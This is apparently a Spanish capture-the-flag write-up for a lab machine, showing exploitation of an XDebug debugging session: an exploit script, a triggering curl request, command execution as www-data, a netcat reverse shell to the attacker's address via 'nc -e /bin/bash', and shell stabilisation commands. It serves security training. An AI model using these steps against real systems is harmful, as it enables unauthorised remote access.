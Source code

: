 1. Lanzamos el exploit

    ```bash
    python3 exploit_shell.py
    ```

1. Lanzamos una peticion GET

    ```bash
    curl -s -X GET "http://10.10.10.83/index.php" -H "Cookie: XDEBUG_SESSION=EEEEE"
    ```

1. En la mini shell abierta del exploit_shell.py lanzamos un **whoami**

    ```php
    system('whoami')    
    ```

1. En la respuesta del **curl** se nos pone *www-data*

El exploit funciona y el comando **ifconfig** nos da una ip que no es la 10.10.10.83. Quiere decir que estamos
en un contenedor.



## Explotacion de vulnerabilidad & Ganando acceso {-}


### Ganando acceso con la vuln XDebug {-}

1. Nos ponemos en escucha con netcat

    ```bash
    nc -nlvp 443
    ```

1. Con el exploit exploit_shell.py lanzamos una reverse shell

    ```php
    system('nc -e /bin/bash 10.10.14.20 443')
    ```

De esta manera, hemos ganado acceso al equipo.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <numero de filas> columns <numero de columnas>
```
